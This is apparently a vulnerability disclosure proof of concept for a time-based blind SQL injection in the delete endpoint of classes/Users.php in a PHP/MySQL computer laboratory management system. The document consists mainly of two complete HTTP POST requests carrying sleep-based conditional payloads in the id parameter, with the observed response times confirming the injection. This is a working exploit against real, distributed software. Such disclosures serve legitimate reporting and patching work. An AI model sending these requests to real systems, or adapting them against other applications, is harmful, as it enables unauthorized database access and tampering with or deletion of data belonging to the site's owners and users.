


# Computer Laboratory Management System using PHP and MySQL - SQL injection

By variable override in classes/Users.php, it is possible to control SQL statements. Therefore, directly construct the payload.

```http
POST /php-lms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.3.182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=me1t3n4nemvaf39r7udbqlal8v; XDEBUG_SESSION=12980
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

id=(IF(1=1,sleep(2),7))
```

Response time: 4156 milliseconds.



Constructing a payload that adds invalid data.

```http
POST /php-lms/classes/Users.php?f=delete HTTP/1.1
Host: 192.168.3.182
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=me1t3n4nemvaf39r7udbqlal8v; XDEBUG_SESSION=12980
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

id=(IF(1=2,sleep(2),7))
```

The time is significantly shortened, with a time of 338.


